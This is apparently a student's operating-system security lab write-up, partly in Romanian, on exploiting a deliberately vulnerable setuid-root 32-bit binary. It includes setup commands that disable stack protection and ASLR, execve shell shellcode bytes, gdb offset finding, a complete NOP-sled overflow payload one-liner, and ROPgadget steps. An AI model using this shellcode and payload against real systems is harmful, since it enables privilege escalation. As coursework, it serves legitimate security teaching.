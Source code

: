 # Lab 7 Operating System ecurity

## Setup
```bash
sudo apt install libc6-dev-i386 gcc-multilib
gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack

sudo chown root:root vuln
sudo chmod 555 vuln
sudo chmod u+s vuln

$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## Task 1
Disassemble using objdump in order to analyze the program.
```bash
objdump -d -M intel vuln
./vuln $(python3 -c 'print (116 * "A")')
```

## Task 2

Install nasm and compile shellcode using it:

```bash
sudo apt install nasm
nasm -f bin -o shellcode.o shellcode.S
```

Verify with objdump that we got the right payload.

```bash
objdump -b binary -m i386 -M intel -D shellcode.o
```

Extracting the bytes gives us the shellcode
``
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
``

## Task 3

```bash
gdb -q vuln
(gdb) b func
(gdb) run $(python3 -c 'print ("A"*116)')
(gdb) print $ebp
(gdb) print $ebp - 0x6c
```

## Task 4 & 5

Final payload structure:

``
[40 bytes of NOP - sled] [25 bytes of shellcode] [47 times ‘A’ will occupy 49 bytes] [4 bytes pointing in the middle of the NOP - sled: 0xffffce20]
``

## Task 6
adresa nu e aceeasi cu cea din gdb din cauza partii cu ENV + ARGS

merge daca adaug +80 (depinde la fiecare) la adresa din gdb sau daca printezi din vuln.c direct adresa lui `buf`
```bash
./vuln $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*40 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + b"A"*47 + b"\x2c\xcb\xff\xff")')
```

## Task 8
Se completeaza scriptul de python

## Task 9

```bash
 gcc rop.c -o vuln32 -fno-stack-protector -m32 -g -no-pie
 sudo -H python3 -m pip install ROPgadget
 ROPgadget --binary vuln32
```

1. se completeaza arg1 si arg2 din codul de c
2. se completeaza al doilea chain ca in lab
3. se ruleaza cu python